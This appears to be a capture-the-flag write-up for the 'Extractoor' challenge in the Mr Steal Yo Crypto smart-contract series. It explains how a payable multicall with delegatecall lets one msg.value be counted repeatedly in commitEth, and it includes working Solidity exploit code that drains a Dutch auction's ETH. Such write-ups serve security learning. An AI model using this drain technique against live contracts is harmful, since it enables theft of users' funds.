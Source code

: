 ```yaml
---
title: "Mr Steal Yo Crypto — Extractoor"
date: 2023-07-22
draft: false
description: "CTF - 16"
tags: ["CTF"]
series: ["CTF"]
series_order: 16
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #16 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real world exploits.
> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/freeze/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Extractoor

>[redacted] has launched a dutch auction to sell 1_000_000 of their FARM tokens. So far one degen has aped in 900 ETH.

Your task is to steal at least 90% of the ETH from the DutchAuction contract.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/extractoor)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/16-extractoor.sol)

## Review of the contract

### Test file and DutchAuction.sol

At the beginning, I was thinking about trying to get a lot of FARM tokens and then sell them. But there is no function for selling our token. I decided to not deep dive on `calculateCommitment()`, `priceDrop()`, `tokenPrice()`, `priceFunction()`. It will be useless, the FARM token is not valuable for the challenge.
We want to drain ETH funds, ETH are transferring on `withdrawTokens()`, `finalize()`, and `commitEth()`. We can forget `withdrawTokens()`, `finalize()` due to the condition of being the admin or `block.timestamp > marketInfo.endTime`. The only path for draining funds is `commitEth()`.
After some time, I still don’t know how to drain ether because if we send too much ether, it will send us only the excess ether. So I made a whole review of the contract one more time and it seems that I forgot the multicall contract. What a mistake.

```solidity
contract Multicall {
    /**
    * @dev Receives and executes a batch of function calls on this contract.
    */
    function multicall(bytes[] calldata data) external payable returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            results[i] = Address.functionDelegateCall(address(this), data[i]);
        }
        return results;
    }
}

/**
* @notice Checks the amount of ETH to commit and adds the commitment. Refunds the buyer if commit is too high.
* @param _beneficiary Auction participant ETH address.
*/
function commitEth(address payable _beneficiary) public payable nonReentrant {
    // Get ETH able to be committed
    uint256 ethToTransfer = calculateCommitment(msg.value);
    
    // Accept ETH Payments.
    uint256 ethToRefund = msg.value - ethToTransfer;
    if (ethToTransfer > 0) {
        _addCommitment(_beneficiary, ethToTransfer);
    }
    // Return any ETH to be refunded.
    if (ethToRefund > 0) {
        _beneficiary.transfer(ethToRefund);
    }
}
```

### Vulnerability Exploit

In a previous CTF, I used a vulnerability that combines a loop and the value of `msg.value`. Msg.value is set at the beginning of a call and is immutable:
```solidity
// Here msg.value = 900e18
dutchAuction.commitEth{value: 900e18}(payable(adminUser));
```

Now imagine a function that is payable and does a loop on a function that is also payable:
```solidity
function vulnerable() external payable {
    for (uint i = 0; i < 3; i++) {
        dutchAuction.commitEth(payable(adminUser));
    }
}
```

The fact is that if we call `vulnerable()` and send ether, the `msg.value` inside `vulnerable()` will be the same inside `commitEth()`. And that’s our vulnerability! At the end `commitEth()` is called three times, at each call `msg.value` will be the same.

```solidty
target.vulnerable{value: 100e18}()
// For each time we enter into commitEth
// msg.value is always equal to 100e18
// even if we call it three times inside vulnerable()
// At the end, we only send 100e18 ether and not 300e18 ether
```

Let’s see if this vulnerability is possible with `multicall()`.
Instead of a basic call, `multicall` uses a delegate call. Normally, delegatecall is used for executing the code of an external contract and update the storage of the caller. Well, we don’t care as the contract that is calling is himself. I’m not sure that it makes sense for doing something like that. But it’s good for us.
The parameter for the call is `data[i]`, and we set `data[]`. Basically, we can call every function that we want.
To finish, `multicall` is payable, so we can send ether to the function.

Now we know the vulnerability and have all the requirements for applying it, so let’s go.

```solidity
/// solves the challenge
function testChallengeExploit() public {
    vm.startPrank(attacker, attacker);

    bytes memory call = abi.encodeWithSignature("commitEth(address)", attacker);
    bytes[] memory _data = new bytes[](11);
    for (uint i; i < 11; i++) {
        _data[i] = call;
    }
    
    // We are looping a payable function, so `msg.value` will still be the same even if we call multiple times `commitEth`.
    // The first time we buy 100_000e18 of token, then we withdraw 100 ether per call
    dutchAuction.multicall{value: 100e18}(_data);

    vm.stopPrank();
    validation();
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/16-extractoor.sol).

## Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me for writing articles on CTF ^^.
